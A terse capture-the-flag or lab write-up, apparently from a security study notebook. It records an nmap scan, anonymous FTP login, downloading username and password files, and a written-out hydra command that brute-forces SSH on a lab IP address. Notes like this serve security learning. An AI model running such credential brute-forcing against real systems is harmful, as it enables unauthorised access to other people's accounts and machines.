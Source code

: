 [Back to Table of Contents](../cysec)

nmap --> ftp, ssh

ftp -- anonymous

login

ls doesnt work

google workaround

quote PASV

ls

get locks

get users

hydra --> ssh brute force with usernames and passwords from ftp files

hydra -L users.txt -P locks.txt 10.10.198.21 ssh